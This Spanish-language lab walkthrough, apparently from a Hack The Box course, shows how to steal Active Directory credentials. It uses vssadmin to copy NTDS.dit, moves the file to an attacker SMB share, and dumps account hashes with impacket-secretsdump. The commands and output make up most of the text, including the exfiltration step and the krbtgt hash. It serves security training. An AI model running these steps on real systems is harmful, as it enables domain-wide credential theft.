 #### Creando una copia "sombra" de C:
Podemos utilizar la herramienta vssadmin par crear un "Volume Shadow Copy" (VSS) de la unidad C (unidad en la que por defecto NTDS almacena sus datos).
Ejecutamos:
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
- Este paso es necesario debido a que no puedo copiarlos mientras estén en uso (y están en uso constantemente mientras windows está activo).

Ahora, podemos copiar el archivo NTDS.dit desde la instantànea de la copia del volumen C a cualquier otra ubicación.
Lo hacemos con el comando:
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

Antes de copiar NTDS.dit a nuestro host de ataque, podemos usar la técnica que aprendimos anteriormente para crear un recurso compartido SMB en dicho host. Si es necesario, puede consultar la sección Ataque a SAM, SISTEMA y SEGURIDAD para revisar este método.

Nota: Al igual que con SAM, los hashes almacenados en NTDS.dit se cifran con una clave almacenada en SYSTEM. Para extraerlos correctamente, es necesario descargar ambos archivos.

## Transfiriendo NTDS.dit a nuestra máquina atacante
Ahora, podemos utilizar el comando "cmd.exe /c move" para mover el archivo a otra localización para que el atacante pueda tener acceso:
Ejecutaremos el comando:
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```

---
### Extrayendo hashes del NTDS.dit
Con una copia de NTDS.dit en nuestro host de ataque, podemos volcar los hashes. Una forma de hacerlo es con secretsdump de Impacket::

```shell-session
Polika4RM@htb[/htb]$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
<SNIP>
```
